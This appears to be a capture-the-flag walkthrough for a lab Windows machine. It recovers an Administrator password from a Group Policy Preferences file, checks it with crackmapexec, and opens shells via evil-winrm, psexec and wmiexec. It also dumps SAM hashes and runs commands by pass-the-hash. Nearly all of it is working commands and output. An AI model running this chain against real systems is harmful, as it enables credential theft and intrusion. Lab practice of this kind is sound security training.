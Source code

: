 type "C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml"

#we can pass this string or the file (groups.xml) to a gpp-decrypt (github) so it cracks the hash. It is easy decrypted cause MS shared the AES key some time ago. We can verify the credentials with crackmapexec and see if winrm can run.

crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)

crackmapexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
HTTP        10.10.10.125    5985   10.10.10.125     [*] http://10.10.10.125:5985/wsman
WINRM       10.10.10.125    5985   10.10.10.125     [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)

#we connect via winrm and from there get the flag.

evil-winrm -i 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'

#We can do the same with psexec.

psexec.py WORKGROUP/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125 cmd.exe

-----------
#we can dump the SAM and then use the hash for a "pass-the-hash" attack.

crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP --sam
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
SMB         10.10.10.125    445    QUERIER          [+] Dumping SAM hashes
SMB         10.10.10.125    445    QUERIER          Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dcefe78334b42c0ce483b8e1b2886ab:::
SMB         10.10.10.125    445    QUERIER          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.125    445    QUERIER          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.125    445    QUERIER          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5564df813a052fce1f477bf934863870:::
SMB         10.10.10.125    445    QUERIER          mssql-svc:1001:aad3b435b51404eeaad3b435b51404ee:0ac7bd9745e85cbea2fe0fa11f33c588:::
SMB         10.10.10.125    445    QUERIER          reporting:1002:aad3b435b51404eeaad3b435b51404ee:5c8c5434d1c5cfea71d25a364adcc5e8:::
SMB         10.10.10.125    445    QUERIER          [+] Added 6 SAM hashes to the database


wmiexec.py WORKGROUP/Administrator@10.10.10.125 -hashes :2dcefe78334b42c0ce483b8e1b2886ab

#or with crackmapexec, we dont need the password since we have the hash. Here we added -x flag to execute the command in cmd and -X to execute in PS.

crackmapexec smb 10.10.10.125 -u 'Administrator' -H '2dcefe78334b42c0ce483b8e1b2886ab' -d WORKGROUP -x 'whoami'
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:2dcefe78334b42c0ce483b8e1b2886ab (Pwn3d!)
SMB         10.10.10.125    445    QUERIER          [+] Executed command 
SMB         10.10.10.125    445    QUERIER          querier\administrator

crackmapexec smb 10.10.10.125 -u 'Administrator' -H '2dcefe78334b42c0ce483b8e1b2886ab' -d WORKGROUP -X 'whoami'
